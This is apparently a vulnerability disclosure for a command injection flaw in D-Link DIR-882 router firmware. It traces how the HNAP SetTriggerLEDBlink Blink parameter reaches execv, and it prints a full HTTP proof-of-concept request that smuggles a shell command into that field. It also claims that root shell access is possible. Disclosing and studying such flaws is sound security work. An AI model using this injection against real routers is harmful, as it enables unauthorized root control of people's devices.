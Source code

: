 # D-link DIR882A1_FW130B06.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220405112631846](img/image-20220405112631846.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220405170719604](img/image-20220405170719604.png)

The content obtained by the program through the / settriggerledblink / blink parameter is passed to V4, and then V4 passes the matched content to V6 through the sprintf function, and then V6 is brought into the twsystem function

![image-20220405170747078](img/image-20220405170747078.png)

At this time, the corresponding parameter is A1

![image-20220405170805434](img/image-20220405170805434.png)

The program passes A1 to v18 array, and finally executes the commands in v18 through execv. There is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetLEDStatus"
HNAP_AUTH: FBAFE6649BD7D7195037F941B5248F0F 1649150396101
X-Requested-With: XMLHttpRequest
Content-Length: 338
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Admin.html
Cookie: SESSION_ID=2:1556825615:2; uid=UXOR3rQa

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetLEDStatus xmlns="http://purenetworks.com/HNAP1/"><Enabled>false</Enabled></SetLEDStatus><SetTriggerLEDBlink><Blink>&& ls > /tmp/456 &&echo 1>
</Blink>
</SetTriggerLEDBlink>
</soap:Body></soap:Envelope>
```

The reproduction results are as follows:

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
